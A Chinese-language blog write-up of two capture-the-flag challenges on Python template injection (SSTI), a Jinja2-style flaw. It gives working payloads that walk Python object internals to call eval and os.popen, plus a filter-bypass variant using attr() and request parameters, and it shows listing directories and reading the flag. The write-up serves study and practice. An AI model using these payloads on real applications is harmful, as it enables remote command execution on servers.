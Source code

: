 ```yaml
---
title: SSTI
date: 2020-12-22 
description: XCTF华为专场的mine-1，触及到了知识盲区。这就是大佬们的签到题吗？
category: 信息安全
tags:
  - CTF
  - SSTI
---
```

# 老题新做,梦开始的地方
## 手工遍历的菜鸡，像极了当初的自己
攻防世界上的一道题：Web_python_template_injection，之前做过一次，这次感觉前前后后理解明白了（来源又是XCTF，这是杠上了）  
这道题什么都没有过滤  
ls的payload:
```python
().__class__.__base__.__subclasses__()[71].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')
```
为了防止忘了，还是把每个指令的作用记录一下
```
__class__返回参数类型	().__class__就返回了tuple类型
__base__或__mro__返回基类。__mro__其实返回的是解析方法调用的顺序（method resolution order），返回的东西多
__subclasses__获取基类的子类
__getitem__切片操作。'os'所在的'site._Printer'是78个，所以用77
__init__类的初始化方法
__globals__对包含函数全局变量的字典的引用
__builtins__里面是自建模块
eval可以把数据整合成str格式
__import__("os")加载os
```
`ls`查看的是当前目录
![ls当前目录](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/main/assets/images/SSTI/ls%E5%BD%93%E5%89%8D%E7%9B%AE%E5%BD%95.png)
看到了fl4g文件  
`ls /`查看的是根目录
![根目录文件](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/main/assets/images/SSTI/ls%E6%A0%B9%E7%9B%AE%E5%BD%95.png)
因为已经看到flag了，所以用`pwd`查看绝对路径，看看flag到底在哪个文件，假装自己遍历了
![在404](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/main/assets/images/SSTI/pwd.png)
竟然在一个叫404的文件夹下面，刚开始还以为是url里的404  
`ls /404`可以看到flag文件
![看到了flag](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/main/assets/images/SSTI/ls%E5%BD%93%E5%89%8D%E7%9B%AE%E5%BD%95.png)
最后用`cat fl4g`读取文件
![flag](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/main/assets/images/SSTI/flag.png)
## 都0202年了，遍历这事还是写程序吧

# XCTF mine1_1
这道题大括号里过滤了`_` `[]` `''` `""`以及`args`  
如果只过滤`[]`的话，payload长这样：
```python
().__class__.__base__.__subclasses__().__getitem__(77).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')
```
因为又过滤了下划线，大括号里的payload长这样：
```python
()|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3)()|attr(request.values.x4)(77)|attr(request.values.x5)|attr(request.values.x6)|attr(request.values.x4)(request.values.x7)|attr(request.values.x4)(request.values.x8)(request.values.x9)
```
并在url后面拼接：
```python
&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read()
```
`{{2}}`  
{{2}}
`{{}}`
```
\{{7*7}}
\{{7*7\}}
```

